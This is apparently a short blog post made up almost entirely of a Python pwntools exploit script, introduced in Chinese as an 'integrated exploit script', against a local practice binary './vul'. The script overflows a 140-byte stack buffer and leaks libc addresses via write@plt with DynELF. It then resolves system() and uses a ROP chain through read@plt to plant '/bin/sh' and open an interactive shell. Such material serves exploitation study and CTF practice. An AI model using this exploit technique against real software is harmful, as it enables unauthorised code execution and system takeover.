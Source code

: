 ```yaml
---
layout: post
title: "Dynelf && rop"
---
```


整合的利用脚本：

<pre>#!/usr/bin/python

from pwn import *

#p = process('./vul')
p = remote('127.0.0.1', 10000)
elf = ELF('./vul')

# debug
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0])

payload_len = 140
write_plt_addr = elf.plt['write']
read_plt_addr = elf.plt['read']
main = elf.symbols['main']
print "[*] main address is " + hex(main)
vul_addr = elf.symbols['vul_func']
print "[*] vul_func address is " + hex(vul_addr)

def leak(address):
    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data

d = DynELF(leak, elf=elf)
system_addr = d.lookup('__libc_system', 'libc')
print "[+] Use DynELF to search system address is " + hex(system_addr)

buff_addr = elf.symbols['__bss_start']
pppr_addr = 0x080484d9  # pop esi ; pop edi ; pop ebp ; ret
exit_addr = 0xdeadbeef

payload2 = "A"*payload_len + p32(read_plt_addr) + p32(pppr_addr) + p32(0) + p32(buff_addr) + p32(8)
payload2 += p32(system_addr) + p32(exit_addr) + p32(buff_addr)

print "[*] Begin to get shell...\n"
p.send(payload2)
sleep(1)
p.send("/bin/sh\0")

p.interactive()</pre>
